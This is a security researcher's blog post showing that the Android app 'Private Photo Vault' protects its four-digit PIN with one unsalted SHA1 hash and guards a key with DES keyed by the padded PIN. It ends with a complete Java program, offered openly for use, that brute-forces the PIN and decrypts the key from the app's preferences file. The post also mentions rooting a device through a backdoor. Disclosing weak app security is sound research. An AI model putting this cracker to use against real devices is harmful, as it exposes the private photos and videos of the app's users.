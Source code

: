 ```yaml
---
layout: post
title: Password Storage In Sensitive Apps
---
```

	Well it isn’t the promised Pork Explosion disclosure, but I ensure you that is coming soon. I have word the update to mitigate it is done, and will be shipping this month. I do however have something else, an example of what Pork Explosion could be stacked with.

	Last week I was contacted by a forensic specialist for a law enforcement agency. They had a phone that could make or break a very sensitive case, and their commercial mobile forensic tools were failing to do, well anything. They could not extract any data off the device. After verifying their identity and purpose, I agreed to help. Using a backdoor, very much like Pork Explosion, and some trickery we were able to fully extract all data off the device. This had me thinking, what next? What if this criminal was using another layer of security? What if they had a "secure storage" app, what if their photos, videos and what not were encrypted in an addition layer of security?

	Off to the Google PlayStore, searched for "Secure Photo" and downloaded the first result, sure enough the files stored were encrypted.... but the PIN was stored in plaintext as a shared preference. Ok no fun, so I install the second result.

>“Have any photos or videos you don't want someone to see? Hide these private pics and vids securely with Private Photo Vault.”

	The second result was [“Private Photo Vault”](https://privatephotovault.com/) by Legendary Software Labs LLC. It has a solid 4 star rating, 1,000,000 to 5,000,000 downloads, and was lasted updated just over two months ago. Using Pork Explosion, I rooted the device and extracted the data directory for Private Photo Vault. The initial results were more promising than the first app, no plaintext PIN stored in the shared preferences. The promise didn’t last long:

Stored in /data/data/com.enchantedcloud.photovault/shared_prefs/com.enchantedcloud.photovault_preferences.xml was what appeared to be the sha1 hash of the PIN and some base64 encoded key.

><?xml version='1.0' encoding='utf-8' standalone='yes' ?>
><map>
>...
>    <string name="pin">7110eda4d09e062aa5e4a390b0a572ac0d2c0220</string>
>…
><string name=“enc_keys_pin">Dar+SDapSbp1mKcztPYWi4vDcvGBNLM8B7WVy00MT1WK0gd2R4wAdg==</string>
>…
></map>

A quick test confirms:

>Jons-Mac-Pro:~ jcase$ echo -ne 1224|shasum
>4fd505f8aeed956f068c4ce57bfc30a6131b7c79 

A single iteration of SHA1 is all that is protecting your PIN code (which is limited to four digits in length). Then DES is used, padding the PIN with “0” until it has a length of 8, to encrypt a key. I stopped analysis at this point, the app was already beyond broken. The app then goes on to use   Facebook’s Android encryption library [Conceal](https://github.com/facebook/conceal), but I did not go any further.

These companies are selling products that claim to securely store your most intimate pieces of data, yet are at most snake oil. You would have near equal protection just by changing the file extension and renaming the photos.


So for those that want to crack the pin and key for a “Private Photo Vault” installation, here you go.

>public class Main {
>
>    public static void main(String[] args) {
>
>        // "pin" and "enc_keys_pin" from com.enchantedcloud.photovault_preferences.xml
>        String hashedPIN = "7110eda4d09e062aa5e4a390b0a572ac0d2c0220"; // 1234
>        String encKeyPin = "Dar+SDapSbp1mKcztPYWi4vDcvGBNLM8B7WVy00MT1WK0gd2R4wAdg=="; // 1e8a99cb-ebe8-452c-b9da-6466a8a60e02
>
>        System.out.println("Cracking pin...");
>        String PIN = crackPIN(hashedPIN);
>        System.out.println("PIN is " + PIN);
>
>        System.out.println("Decrypting Key...");
>        String KEY = decryptKey(encKeyPin,PIN);
>        System.out.println("KEY is " + KEY);
>    }
>
>    private static String decryptKey (String KEY, String PIN) {
>
>        while (PIN.length() < 8) {
>            PIN = PIN + 0;
>        }
>
>        SecretKey secKey = null;
>        try {
>            secKey = SecretKeyFactory.getInstance("DES").generateSecret(new DESKeySpec(PIN.getBytes("UTF8")));
>            byte[] bKey = Base64.decode(KEY);
>            Cipher cipher = Cipher.getInstance("DES");
>            cipher.init(2, (secKey));
>            return new String(cipher.doFinal(bKey));
>        } catch (InvalidKeySpecException e) {
>            e.printStackTrace();
>        } catch (NoSuchAlgorithmException e) {
>            e.printStackTrace();
>        } catch (InvalidKeyException e) {
>            e.printStackTrace();
>        } catch (UnsupportedEncodingException e) {
>            e.printStackTrace();
>        } catch (BadPaddingException e) {
>            e.printStackTrace();
>        } catch (IllegalBlockSizeException e) {
>            e.printStackTrace();
>        } catch (NoSuchPaddingException e) {
>            e.printStackTrace();
>        }
>        return null;
>    }
>
>    private static String crackPIN(String hashedPIN) {
>        for (int i = 0; i <= 9999;i++) {
>            String testPin = Integer.toString(i);
>            while (testPin.length() < 4) {
>                testPin = "0" + testPin;
>            }
>            try {
>                MessageDigest md = MessageDigest.getInstance("SHA-1");
>                md.reset();
>                md.update(testPin.getBytes());
>                if (hashedPIN.equals(bytesToHex(md.digest()))) {
>                    return testPin;
>
>                }
>            } catch (NoSuchAlgorithmException e) {
>                e.printStackTrace();
>            }
>        }
>        return null;
>    }
>
>    private static String bytesToHex(byte[] bytes) {
>        char[] hexArray = "0123456789abcdef".toCharArray();
>        char[] hexChars = new char[bytes.length * 2];
>        for ( int j = 0; j < bytes.length; j++ ) {
>            int v = bytes[j] & 0xFF;
>            hexChars[j * 2] = hexArray[v >>> 4];
>            hexChars[j * 2 + 1] = hexArray[v & 0x0F];
>        }
>        return new String(hexChars);
>    }
>}
